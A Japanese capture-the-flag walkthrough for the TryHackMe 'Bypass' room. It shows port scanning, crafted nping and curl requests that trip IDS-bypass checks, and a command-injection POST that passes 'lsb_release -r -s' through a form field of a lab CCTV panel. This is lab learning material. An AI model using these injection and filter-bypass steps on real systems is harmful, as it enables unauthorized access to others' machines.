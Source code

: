 # Bypass CTF

https://tryhackme.com/room/bypass

```
ネットワークセキュリティチームは、 IDSを使用した最先端の保護メカニズムを導入しています。あなたの任務は、ネットワークセキュリティソリューションを回避し、会社のCCTVウェブパネルにアクセスすることです。
```

## Enumeration

### ポートスキャン

```sh
rustscan -a $TARGET

PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 61
80/tcp  open  http    syn-ack ttl 61
443/tcp open  https   syn-ack ttl 61
```

SSH,HTTP,HTTPS

HTTPはForbiddenで何も表示されず手掛かりがない。


HTTSでadminログイン画面が表示され、下記コメントがあった。

```html
<!-- Here we will add redirection to /mail endpoint -->
```

https://cctv.thm/mail/ にアクセスするとテキストファイルがあった。  
クイズ1から5までのバイパス手順が書かれている。

## 1

```
Make a UDP request to the machine with source port number 5000. Once done, you can fetch the flag through /fpassword.php?id=1
```

```sh
$ sudo nping --udp --source-port 5000 cctv.thm
[sudo] password for kali: 

Starting Nping 0.7.95 ( https://nmap.org/nping ) at 2025-07-31 10:51 JST
SENT (0.0257s) UDP 10.13.85.243:5000 > 10.10.134.20:40125 ttl=64 id=33002 iplen=28 
SENT (1.0267s) UDP 10.13.85.243:5000 > 10.10.134.20:40125 ttl=64 id=33002 iplen=28 
SENT (2.0280s) UDP 10.13.85.243:5000 > 10.10.134.20:40125 ttl=64 id=33002 iplen=28 
SENT (3.0300s) UDP 10.13.85.243:5000 > 10.10.134.20:40125 ttl=64 id=33002 iplen=28 
SENT (4.0320s) UDP 10.13.85.243:5000 > 10.10.134.20:40125 ttl=64 id=33002 iplen=28 
 
Max rtt: N/A | Min rtt: N/A | Avg rtt: N/A
Raw packets sent: 5 (140B) | Rcvd: 0 (0B) | Lost: 5 (100.00%)
Nping done: 1 IP address pinged in 5.08 seconds
```

https://cctv.thm/fpassword.php?id=1 にブラウザでアクセスしたらフラグが表示された。httpではダメなことに注意。

## 2

```
Make a TCP request to fpassword.php?id=2 with user-agent set as "I am Steve Friend". Once done, you can fetch the flag through /fpassword.php?id=2
```

HTTPに対して一回リクエストを送ってForbiddenが返ってきた後、HTTPSに対して普通にリクエストするとフラグが返る。

```sh
curl -i -s http://cctv.thm/fpassword.php?id=2 -A "I am Steve Friend"
```

## 3

```
Send a ping packet to the machine appearing as Mozilla browser (Hint: packet content with user agent set as Mozilla). Once done, you can fetch the flag through /fpassword.php?id=3
```

```sh
sudo nping --icmp --data-string 'User-Agent: Mozilla' cctv.thm
```

## 4

```
Attempt to login to the FTP server with content containing the word "user" in it. Once done, you can fetch the flag from /fpassword.php?id=4
```

確認していなかったが、22はSSHではなくFTPだった様子。

contentとは何だと思ったが、ユーザー名にuserを入れて一回実行しておくとフラグが返るようになる。

```sh
$ ftp user@cctv.thm -p 22
Connected to cctv.thm.
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9
ftp> 
```

## 5

```
Send TCP request to flagger.cgi endpoint with a host header containing more than 50 characters. Once done, you can fetch the flag from /fpassword.php?id=5
```

```sh
$ curl -i -s http://cctv.thm/flagger.cgi -H "Host: 123456789012345678901234567890123456789012345678901234567890"
```

今までのフラグを全部結合すると、admin画面のパスワードになる。

## 7

`What is the lsb_release -r -s command output from the attached machine?`

コマンドインジェクション

```http
POST / HTTP/1.1
Host: cctv.thm
Cookie: PHPSESSID=oe3ombvpr3ns7138lrn70p7vbh
Content-Length: 11
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Origin: https://cctv.thm
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://cctv.thm/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive

commands=lsb_release -r -s
```

```html
<select name="commands" id="commands">
  <option value="date">Current Date [REDACTED]
</option>
</select>
```

hostname コマンドでホスト名を確認してユーザー名とし、先ほどと同じパスワードを使ってログインできる。

## 振り返り

- もう少し実践的なバイパス方法を学べることを期待していたが、そういうのではなく残念。
